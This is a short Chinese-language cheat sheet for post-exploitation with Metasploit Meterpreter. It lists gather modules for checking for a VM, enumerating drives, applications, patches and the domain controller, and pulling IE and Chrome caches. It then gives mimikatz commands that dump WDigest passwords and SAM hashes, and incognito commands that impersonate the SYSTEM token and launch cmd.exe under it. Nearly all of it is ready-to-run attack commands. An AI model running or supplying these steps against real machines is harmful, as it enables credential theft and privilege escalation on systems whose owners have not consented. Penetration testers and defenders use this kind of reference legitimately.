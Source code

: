 

### 信息搜集模块

脚本位于：

/usr/share/metasploit-framework/modules/post/windows/gather

/usr/share/metasploit-framework/modules/post/linux/gather

```bash
run post/windows/gather/checkvm #是否虚拟机
run post/linux/gather/checkvm #是否虚拟机
run post/windows/gather/forensics/enum_drives #查看分区
run post/windows/gather/enum_applications #获取安装软件信息
run post/windows/gather/dumplinks   #获取最近的文件操作
run post/windows/gather/enum_ie  #获取IE缓存
run post/windows/gather/enum_chrome   #获取Chrome缓存
run post/windows/gather/enum_patches  #补丁信息
run post/windows/gather/enum_domain  #查找域控
```

### 哈希抓取模块

```bash
# help mimikatz 查看帮助
load mimikatz 

# 获取Wdigest密码
wdigest  

# 执行mimikatz原始命令
mimikatz_command -f samdump::hashes  
mimikatz_command -f sekurlsa::searchPasswords
```

### 令牌模块

**假冒令牌**

```bash
#help incognito  查看帮助
use incognito      

#查看可用的token
list_tokens -u    #查看可用的token

 #假冒SYSTEM token
impersonate_token 'NT AUTHORITY\SYSTEM' 

# -t 使用假冒的token 执行
execute -f cmd.exe -i –t
# 或者直接shell

#返回原始token
rev2self
```
